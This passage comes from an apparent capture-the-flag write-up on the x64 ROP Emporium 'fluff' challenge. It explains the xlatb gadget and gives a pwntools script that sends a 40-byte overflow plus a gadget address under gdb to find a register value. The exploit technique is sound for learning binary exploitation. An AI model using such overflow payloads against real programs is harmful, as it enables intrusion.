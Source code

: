 ### Read Byte
![gadget1](/images/fluff/x64-gadget1.png)

The 
[xlatb instruction](https://www.felixcloutier.com/x86/xlat:xlatb){:target="_blank"}{:rel="noopener noreferrer"}
will read a byte from `rbx` + `al` and save it into `al`.
In order to read the correct byte, we'll need to subtract
the previous value of `al` from `rbx`

```
rbx + al = target_address
rbx = target_address - al
```

To properly read a byte from memory we need to answer
two questions
1. What is the initial value of `al`?
2. What addresses should we be reading from?

`al`'s initial value can be found using `pwndbg` (or your
favorite debugger) and stepping through a basic ROP chain

```python
#!/bin/python3
from pwn import *

gadget1 = 0x00400628
payload = b'A' * 40 + p64(gadget1)

# replace kitty with your terminal
context.terminal = ['kitty']

# break when ropchain starts
io = gdb.debug('./fluff', '''
               b pwnme
               c
               b *0x00400628
               c
               ''')
io.send(payload)
io.interactive()
```

![al value](/images/fluff/x64-al-value.png)
